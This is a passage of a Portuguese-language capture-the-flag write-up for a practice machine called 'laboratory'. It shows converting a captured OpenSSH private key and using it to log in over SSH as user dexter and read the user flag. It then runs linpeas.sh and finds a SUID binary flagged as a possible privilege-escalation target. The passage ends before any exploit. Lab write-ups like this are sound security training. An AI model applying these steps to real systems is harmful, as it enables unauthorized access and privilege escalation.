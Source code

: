 Ao validar a chave RSA existente (`id_rsa`) notei que não se trata de uma chave RSA, mas uma chave `OPENSSH`. Para convertê-la precisei realizar os seguintes procedimentos:

- Remover a quebra de linha ao final do arquivo, após a instrução `-----END OPENSSH PRIVATE KEY-----`.

- Conversão de OpenSSH para RSA usando o comando abaixo, assim como a redefinição das permissões para que pudéssemos utilizá-la com o `ssh`, informando a senha da chave a ser exportada em branco.

  ```bash
  $ chmod 600 id_rsa
  $ ssh-keygen -p -m PEM -f ./id_rsa
  Key has comment 'root@laboratory'
  Enter new passphrase (empty for no passphrase): 
  Enter same passphrase again: 
  Your identification has been saved with the new passphrase.
  ```

Após o procedimento mencionado, foi possível conectar-se à máquina via SSH e obter a flag a partir do usuário `dexter`.

  ```bash
  $ ssh -i id_rsa dexter@10.10.10.216
  dexter@laboratory:~$ ls -la
  total 40
  drwxr-xr-x 6 dexter dexter 4096 Oct 22 08:42 .
  drwxr-xr-x 3 root   root   4096 Jun 26  2020 ..
  lrwxrwxrwx 1 root   root      9 Jul 17  2020 .bash_history -> /dev/null
  -rw-r--r-- 1 dexter dexter  220 Feb 25  2020 .bash_logout
  -rw-r--r-- 1 dexter dexter 3771 Feb 25  2020 .bashrc
  drwx------ 2 dexter dexter 4096 Jun 26  2020 .cache
  drwx------ 2 dexter dexter 4096 Oct 22 08:14 .gnupg
  drwxrwxr-x 3 dexter dexter 4096 Jun 26  2020 .local
  -rw-r--r-- 1 dexter dexter  807 Feb 25  2020 .profile
  drwx------ 2 dexter dexter 4096 Jun 26  2020 .ssh
  -r--r----- 1 root   dexter   33 Feb 19 11:06 user.txt
  dexter@laboratory:~$ cat user.txt 
  <redacted>
  ```

## Root flag

Após executar `linpeas.sh` novamente, desta vez na máquina de fato, notei que existe um arquivo SUID, com permissão atribuida para o usuário **dexter**.

```bash
dexter@laboratory:~$ ls -la /usr/local/bin/docker-security
-rwsr-xr-x 1 root dexter 16720 Aug 28 14:52 /usr/local/bin/docker-security
```

Ao executar este binário, não observei nenhum output, assim como não exibe nenhum tipo de informação/ajuda usando parametros como `--version` e `--help`. Analisando o mesmo mais a fundo notei que se trata de um arquivo executável, o qual pode conter alguma informação do que se utiliza para algum eventual path hijack ou buffer overflow.

```bash
dexter@laboratory:~$ file /usr/local/bin/docker-security
/usr/local/bin/docker-security: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d466f1fb0f54c0274e5d05974e81f19dc1e76602, for GNU/Linux 3.2.0, not stripped
```
